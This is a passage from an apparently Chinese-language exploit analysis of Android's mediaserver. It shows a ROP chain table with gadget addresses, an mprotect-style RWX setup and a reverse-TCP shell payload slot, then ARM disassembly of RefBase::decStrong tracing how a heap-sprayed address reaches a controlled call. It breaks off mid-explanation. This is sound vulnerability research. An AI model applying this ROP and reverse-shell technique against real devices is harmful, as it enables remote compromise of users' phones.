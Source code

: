 | 0x4C, ROP+0x0 | sp_addr + 0x40 |
| ROP+0x4 | 0xb0002a98{} |
| ROP+0x8 | 0xb00038b2 + 1{} |
| ROP+0xC | sp_addr & 0xFFFFF000 |
| ROP+0x10 | 0x1000 |
| ROP+0x14 | 7 |
| ROP+0x18 | 0xd000d003 |
| ROP+0x1C | 0xd000d004 |
| ROP+0x20 | 0xb001144{} |
| ROP+0x24 | sp_addr + 0x80 |
| ROP+0x28 | 0xf0f00000 + x1 |
| … | … … |
| ROP+0x4C | payload/shell_reverse_tcp |
| … | … |
| 0x1000 | 0xf0f00000 + xn |

从exploit看，mediaserver crash时代码走到了`android::RefBase::decStrong(android::RefBase *__hidden this, const void *)`，汇编代码如下：

```
.text:0000EE34 70 B5         PUSH  {R4-R6,LR}
.text:0000EE36 05 46         MOV   R5, R0
.text:0000EE38 44 68         LDR   R4, [R0,#4]
.text:0000EE3A 0E 46         MOV   R6, R1
.text:0000EE3C 20 46         MOV   R0, R4
.text:0000EE3E FD F7 54 EB   BLX   android_atomic_dec
.text:0000EE42 01 28         CMP   R0, #1
.text:0000EE44 0B D1         BNE   loc_EE5E
.text:0000EE46 A0 68         LDR   R0, [R4,#8]
.text:0000EE48 01 68         LDR   R1, [R0]
.text:0000EE4A CA 68         LDR   R2, [R1,#0xC]
.text:0000EE4C 31 46         MOV   R1, R6
.text:0000EE4E 90 47         BLX   R2

```

按这段代码的执行流程如下：

**1）r0 = spray_address = sa**

```
LDR             R4, [R0,#4]

```
